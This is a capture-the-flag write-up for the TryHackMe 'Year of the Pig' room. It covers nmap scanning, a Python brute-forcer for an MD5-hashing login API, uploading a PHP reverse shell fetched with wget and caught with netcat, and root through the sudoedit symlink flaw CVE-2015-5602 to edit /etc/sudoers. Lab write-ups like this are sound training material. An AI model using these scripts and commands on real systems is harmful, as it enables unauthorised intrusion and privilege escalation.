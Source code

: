 # [Year of the pig](https://tryhackme.com/room/yearofthepig)
## ENUMERATION
Nmap :
```
nmap -sC -sV -p- 10.10.9.235  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:10 IST
Nmap scan report for 10.10.9.235
Host is up (0.057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's start with the webserver.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20131321.png)

Use gobuster for directory bruteforcing:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20132146.png)

This reveals the admin directory which yields us this as `/login.php`:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20132225.png)

# Web Login:
The page is sending an AJAX request to `/api/login` using JSON format for the user input. Also , the password value is MD5 hash value of the string.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20132929.png)

For wrong credentials the following message appears:<br>
`Remember that passwords should be a memorable word, followed by two numbers and a special character`<br>
Take a note of that.<br>
Let's attempt to bruteforce this login now.
We need a custom wordlist as ensured by the password policy. Scanning the page for 'memorable' words gives us this:
 ```
Marco
marco
plane
planes
airplane
airplanes
airforce
flying
Savoia
savoia
Macchi
macchi
Curtiss
curtiss
milan
Milan
mechanic
maintenance
Italian
italian
Agility
agility
```
You can use [CeWL](https://digi.ninja/projects/cewl.php) for this.<br>
Adding a custom rule to `/etc/john/john.conf`. This will fulfill the password policy required.
```
[List.Rules:yop]
Az"[0-9][0-9][!#$%&(),*=/?]"
```
But the passwords are MD5-Hashed first before being sent to the login. Use this python program to hash the passwords and use them to bruteforce the login:
```
#!/usr/bin/python3
import requests
import sys
import json
import hashlib

payload= {"username":sys.argv[2],"password":"test"}

i = 0
for line in sys.stdin:
    payload["password"] = hashlib.md5(line.rstrip().encode('utf-8')).hexdigest()
    r = requests.post(sys.argv[1]+"/api/login",data=json.dumps(payload))
    json_data = json.loads(r.content)
    i = i +1
    if i % 10 == 0:
        print(str(i),end="\r")
    if json_data["Response"] != "Error":
        print (line)
        break
```
 Got this from [auth.py](https://gist.github.com/j11b0/c5101a9d32be96ff73fa4a72c0705290#file-auth-py)<br>
 This takes a while. Thankfully the password doesn't seem to reset with every reboot.

 ![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20153418.png)

Going forward we see:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20153539.png)

Now this is a complete rabbit hole. The commands section only responds to some commands like `whoami`which tells us we are `www-data` and `id`.

## FOOTHOLD
SSH as marco using the same password and you get the first flag immediately.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20153840.png)

Looking in the `/var/www` directory to find some hints of what to do with the webserver we find that marco can edit any file here except `admin.db`.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20154125.png)

To read `admin.db` we need to be www-data. So, let’s use our edit access to upload the PentestMonkey PHP reverse shell (located by default on Kali at `/usr/share/webshells/php/php-reverse-shell.php`) — making sure to change the IP and port number. <br>Using wget:
```
root@kali:/usr/share/webshells/php# python3 -m http.server
marco@year-of-the-pig:/var/www/html/admin$ wget YOUR-IP:8000/php-reverse-shell.php
```
Start a listener with `nc -lvnp <chosen-port>` then activate the shell by going to `http://<machine-ip>/php-reverse-shell.php`
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20185358.png)

We can't read the databse in a non-interactive shell , so to upgrade use :<br>
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20190238.png)

We got the password hashes of user curtis.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20190410.png)

`su curtis` and you'll get the 2nd flag in his home directory.

## PRIVILEGE ESCALATION
Checking `sudo -l` we see that Curtis can execute sudoedit as sudo, against some files in /var/www/html.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20190838.png)

Checking ExploitDB for sudoedit exploit gives us [this](https://www.exploit-db.com/exploits/37710).<br>
Checking sudo version confirms we are to use the CVE-2015-5602 exploit.
```
curtis@year-of-the-pig:~$ sudo --version
Sudo version 1.8.13
Sudoers policy plugin version 1.8.13
Sudoers file grammar version 44
Sudoers I/O plugin version 1.8.13
```
In this version of sudo , sudoedit does not check the full path if a wildcard is used twice (e.g. `/html/*/*/config.php`), allowing a malicious user to replace the `config.php` real file with a symbolic link to a different location.<br>
Marco being part of the `web-developers` can create such a path.<br>
Now symlink this to `/etc/sudoers` file so we may give curtis sudo access. You can use this with the `/etc/passwd` file to add your own password.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20194036.png)

Back to Curtis : `sudoedit /var/www/html/dir1/dir2/config.php`
This did not work with sudo for some reason.<br>
Add curtis to the file :
```
## User Privilege Specification
##
root ALL=(ALL) ALL
curtis ALL=(ALL) ALL
## Uncomment to allow members of group wheel to execute any command
```
Now you can use su to elevate your privileges.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20The%20Pig/images/Screenshot%202023-07-12%20194118.png)


